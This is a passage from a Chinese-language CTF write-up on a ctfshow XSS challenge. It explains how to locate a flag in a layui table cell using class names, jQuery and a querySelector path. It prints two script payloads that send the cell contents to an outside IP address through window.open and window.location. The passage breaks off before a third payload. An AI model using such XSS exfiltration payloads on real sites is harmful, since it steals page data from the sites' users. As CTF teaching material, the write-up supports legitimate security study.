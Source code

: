这样我们就可以使用下面的paylaod去把这个题的flag带出来了

```
<script>window.open('http://47.96.41.103:9856/?a='+document.getElementsByClassName('layui-table-cell laytable-cell-1-0-1')[1].innerHTML)</script>
```

第二种方法

上一个方法已知我们要获取的数据对应的类名字是layui-table-cell laytable-cell-1-0-1。（中间有空格表示这里有两个类，对应表格里面

这里我们可以只读一个，也可以都读。都读的话.layui-table-cell.laytable-cell-1-0-1，只读一个的话.laytable-cell-1-0-1。

```javascript
$('.laytable-cell-1-0-1').each(function(index,value){
	console.log(value);
});
```

拿flag的payload

```
<script>$('div.layui-table-cell.laytable-cell-1-0-1').each(function(index,value){if(value.innerHTML.indexOf('ctfshow{')>-1){window.location.href='http://47.96.41.103:9856/?a='+value.innerHTML;}});</script>
```



第三种方法

```
document.querySelector('#top > div.layui-container > div:nth-child(4) > div > div.layui-table-box > div.layui-table-body.layui-table-main').textContent
```

上面paylaod一层层往下取酒能取到这个敏感内容的地方

![image-20231212234256085](./assets/image-20231212234256085.png)

最后我们拿flag的payload如下
